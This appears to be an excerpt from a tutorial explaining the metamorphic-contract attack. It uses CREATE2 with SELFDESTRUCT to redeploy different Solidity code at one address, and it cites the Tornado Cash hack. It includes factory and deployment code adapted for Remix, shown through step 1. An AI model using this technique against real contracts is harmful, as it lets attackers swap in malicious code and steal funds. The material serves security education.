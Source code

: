 This refers to a well-known vulnerability: a combination of `CREATE` and `CREATE2` together with `SELFDESTRUCT` allows deploying **different** contracts at the same address.
This exact method was used in the [Tornado Cash hack](https://coinsbench.com/understanding-soliditys-create-create2-with-tornado-cash-1m-hack-01f8c147e5c7), where $1M was stolen.

This also applies to **metamorphic contracts**.

### Attack Demonstration

There’s a [repository](https://github.com/ManaanAnsari/solidity-metamorphic-contracts-example/blob/main/test/MetamorphicContract.t.sol) that reproduces a similar attack.
I slightly modified that code so it can be tested in Remix — we’ll go through it in more detail below:

Factory contract:
```solidity
contract Factory {
    function createFirst() public returns (address) {
        return address(new First());
    }

    function createSecond(uint256 _number) public returns (address) {
        return address(new Second(_number));
    }

    function kill() public {
        selfdestruct(payable(address(0)));
    }
}
```
This factory creates contracts **with identical addresses but different code**. 😈

Step 1. Deploy `MetamorphicContract` and call the `firstDeploy` function:

```solidity
function firstDeploy() external {
    factory = new Factory{salt: keccak256(abi.encode("evil"))}();
    first = First(factory.createFirst());

    emit FirstDeploy(address(factory), address(first));

    first.kill();
    factory.kill();
}
```
This call:
- Deploys the factory and the first version of the contract.
- Immediately destroys them after deployment.
- Logs their addresses.
- Destroys both contracts.

Result in Remix:
![first-deploy-logs](./img/first-deploy-logs.png)

